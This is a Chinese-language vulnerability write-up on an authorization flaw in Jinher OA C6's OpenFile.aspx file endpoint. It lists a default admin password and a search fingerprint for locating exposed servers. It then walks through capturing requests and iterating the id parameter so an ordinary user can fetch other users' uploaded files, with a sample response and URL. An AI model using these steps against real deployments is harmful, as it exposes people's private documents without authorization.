



# 金和OA C6 OpenFile.aspx 后台越权敏感文件遍历漏洞

## 漏洞描述

金和OA C6 存在后台越权敏感文件遍历漏洞，普通用户通过遍历特殊参数可以获取其他用户上传的敏感文件

## 漏洞影响

<a-checkbox checked>金和OA C6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Jinher-OA"</a-checkbox></br>

## 漏洞复现

默认用户口令：admin/000000

登录后点击信息交流，发起协同页面


上传附件并上传发送给目标，这里登录权限为管理员，我们自己发给自己就好，前文只是展现漏洞挖掘思路过程


成功收到上传的附件




点击查看时抓包，发现一个带有文件ID的请求包


返回了几个参数

```plain
var strFilePath = '../Resource/slaves/1/8b473ecb-7b39-4384-ada2-b0ec72c4f6ed.png';
var strFileType = 'png';
var strSid='3jvpvhs410m2wdbbficax5q5';
var strFileIDCode='us9w7xWE7do=';
var strId = '1229';
var strTxtReg = 'txt,ini,xml,config,htm,html,js,css,asp,aspx,jsp,cs,sql,inf,htc,log';
var strImgReg = 'jpg,gif,jpeg,png,ico';
var MD = '';
```

其中我们注意到 strFilePath 为文件的存储地址，我们更改 id参数为另一个值，且测试后发现 name文件名参数无关紧要




更改ID后发送请求包发现获得另一个文件的信息

访问Url，注意 `type参数`  需要为正确的文件后缀才可以访问

```plain
http://xxx.xxx.xxx.xxx/C6/control/OpenFile.aspx?id=1200&name=&type=pdf
```


这里更换一个普通用户测试是否可行，尝试遍历 id




存在 `strFilePath参数` 则是存在文件，为空则是文件已经不存在

同时抓包下载文件页面也可以看到可获取的参数

`FileID 与 FileIDCode`


于是只需要通过刚刚的ID遍历，获取两个关键参数就能下载其他人发送的敏感文件，且只需要普通用户权限